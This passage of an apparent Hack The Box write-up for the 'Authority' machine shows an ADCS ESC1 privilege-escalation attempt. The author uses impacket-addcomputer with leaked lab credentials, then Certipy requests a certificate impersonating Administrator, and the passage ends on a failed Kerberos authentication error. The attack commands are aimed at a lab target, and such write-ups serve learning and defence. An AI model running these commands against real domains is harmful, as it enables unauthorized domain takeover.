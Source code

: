We can see that it is vulnerable to the ESC1 by the above output.

By looking at the above output we can see that only the domain computers have privileges to enroll certificates.

So I will use the **impacket’s addcomputer.py** to add a computer to the domain.

```bash
impacket-addcomputer -computer-name 'aashwin$' -computer-pass 'aashwin10!' authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'
```

![image.png](/assets/images/Authority_HTB/image%2021.png)

And after adding the machine account to the domain we request certificates from it.

```bash
certipy req -u 'aashwin$' -p 'aashwin10!' -dc-ip 10.129.229.56  -template 'CorpVPN' -ca 'AUTHORITY-CA' -upn 'Administrator@authority.htb'
```

![image.png](/assets/images/Authority_HTB/image%2022.png)

We got the administrator.pfx

So now lets just authenticate as an administrator.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.229.56
```

But it failed to authenticate with shows this error.

```text
(certipy-authority) ┌─[root@parrot]─[/home/aashwin/Desktop/HTB/Machines/Authority]
└──_# certipy auth -pfx administrator.pfx -dc-ip 10.129.229.56                                                                                                          
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@authority.htb'
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

